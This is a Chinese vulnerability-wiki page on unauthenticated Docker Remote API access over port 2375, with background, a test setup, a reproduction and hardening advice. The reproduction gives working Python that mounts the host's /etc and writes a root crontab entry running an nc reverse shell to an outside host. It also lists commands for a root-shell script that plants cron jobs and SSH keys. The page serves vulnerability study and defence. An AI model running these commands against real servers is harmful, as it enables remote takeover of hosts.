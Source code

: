 Docker 未授权访问
=================

一、漏洞简介
------------

#### 1. 基础介绍

http://www.loner.fm/drops/\#\#!/drops/1203.%E6%96%B0%E5%A7%BF%E5%8A%BF%E4%B9%8BDocker%20Remote%20API%E6%9C%AA%E6%8E%88%E6%9D%83%E8%AE%BF%E9%97%AE%E6%BC%8F%E6%B4%9E%E5%88%86%E6%9E%90%E5%92%8C%E5%88%A9%E7%94%A8

docker swarm 是一个将docker集群变成单一虚拟的docker
host工具，使用标准的Docker
API，能够方便docker集群的管理和扩展，由docker官方提供，具体的大家可以看官网介绍。

漏洞发现的起因是，有一位同学在使用docker swarm的时候，发现了管理的docker
节点上会开放一个TCP端口2375，绑定在0.0.0.0上，http访问会返回 404 page
not found ，然后他研究了下，发现这是 Docker Remote
API，可以执行docker命令，比如访问 http://host:2375/containers/json
会返回服务器当前运行的 container列表，和在docker CLI上执行 docker ps
的效果一样，其他操作比如创建/删除container，拉取image等操作也都可以通过API调用完成，然后他就开始吐槽了，这尼玛太不安全了。

然后我想了想
swarm是用来管理docker集群的，应该放在内网才对。问了之后发现，他是在公网上的几台机器上安装swarm的，并且2375端口的访问策略是开放的，所以可以直接访问。

#### 2. 测试环境配置

先关闭docker，然后开启：

    sudo service docker stop
    # 绑定Docker Remote Api在指定端口（这里是2375），可以自行测试。
    sudo docker daemon  -H tcp://0.0.0.0:2375 -H unix:///var/run/docker.sock

参考API规范进行渗透：https://docs.docker.com/engine/reference/api/docker-remote-api-v1.23/

操作Docker API可以使用python dockert api 完成。

pip install docker-py

API使用参考：https://docker-py.readthedocs.io/en/stable/api/\#\#client-api

二、影响范围
------------

三、复现过程
------------

利用方法是，我们随意启动一个容器，并将宿主机的/etc目录挂载到容器中，便可以任意读写文件了。我们可以将命令写入crontab配置文件，进行反弹shell。

    import docker

    client = docker.DockerClient(base_url='http://your-ip:2375/')
    data = client.containers.run('alpine:latest', r'''sh -c "echo '* * * * * /usr/bin/nc your-ip 21 -e /bin/sh' >> /tmp/etc/crontabs/root" ''', remove=True, volumes={'/etc': {'bind': '/tmp/etc', 'mode': 'rw'}})

写入crontab文件，成功反弹shell：![](/Users/aresx/Documents/VulWiki/.resource/Docker未授权访问/media/rId26.png)

#### python脚本

https://github.com/ianxtianxt/docker\_api\_vul

-   安装类库    `pip install -r requirements.txt`

-   查看运行的容器    `python dockerRemoteApiGetRootShell.py -h 127.0.0.1 -p 2375`

-   查看所有的容器    `python dockerRemoteApiGetRootShell.py -h 127.0.0.1 -p 2375 -a`

-   查看所有镜像    `python dockerRemoteApiGetRootShell.py -h 127.0.0.1 -p 2375 -l`

-   查看端口映射    `python dockerRemoteApiGetRootShell.py -h 127.0.0.1 -p 2375 -L`

-   写计划任务（centos,redhat等,加-u参数用于ubuntu等）    `python dockerRemoteApiGetRootShell.py -h 127.0.0.1 -p 2375 -C -i 镜像名 -H 反弹ip -P 反弹端口`    `python dockerRemoteApiGetRootShell.py -h 127.0.0.1 -p 2375 -C -u -i 镜像名 -H 反弹ip -P 反弹端口`

-   写sshkey(自行修改脚本的中公钥)    `python dockerRemoteApiGetRootShell.py -h 127.0.0.1 -p 2375 -C -i 镜像名 -k`

-   在容器中执行命令    `python dockerRemoteApiGetRootShell.py -h 127.0.0.1 -p 2375 -e  "id" -I 容器id`

-   删除容器    `python dockerRemoteApiGetRootShell.py -h 127.0.0.1 -p 2375 -c -I 容器id`

-   修改client api版本    `python dockerRemoteApiGetRootShell.py -h 127.0.0.1 -p 2375 -v 1.22`

-   查看服务端api版本    `python dockerRemoteApiGetRootShell.py -h 127.0.0.1 -p 2375 -V`

#### 3.3 其他的一些exp

https://github.com/netxfly/docker-remote-api-exphttps://github.com/zer0yu/SomePoC/blob/master/Docker/Docker\_Remote\_API%E6%9C%AA%E6%8E%88%E6%9D%83%E8%AE%BF%E9%97%AE%E6%BC%8F%E6%B4%9E.pyhttps://github.com/JnuSimba/MiscSecNotes/tree/master/Docker%E5%AE%89%E5%85%A8

#### 4. 防护策略

-   1.修改 Docker Remote API 服务默认参数。注意：该操作需要重启 Docker
    服务才能生效。

-   2.修改 Docker 的启动参数：    定位到 DOCKER\_OPTS 中的
    tcp://0.0.0.0:2375，将0.0.0.0修改为127.0.0.1    或将默认端口 2375 改为自定义端口    为 Remote API 设置认证措施。参照 官方文档 配置 Rem

-   3.注意：该操作需要重启 Docker 服务才能生效。    修改 Docker 服务运行账号。请以较低权限账号运行 Docker
    服务；另外，可以限制攻击者执行高危命令。

-   4.注意：该操作需要重启 Docker 服务才能生效。    设置防火墙策略。如果正常业务中 API
    服务需要被其他服务器来访问，可以配置安全组策略或 iptables
    策略，仅允许指定的 IP 来访问 Docker 接口。
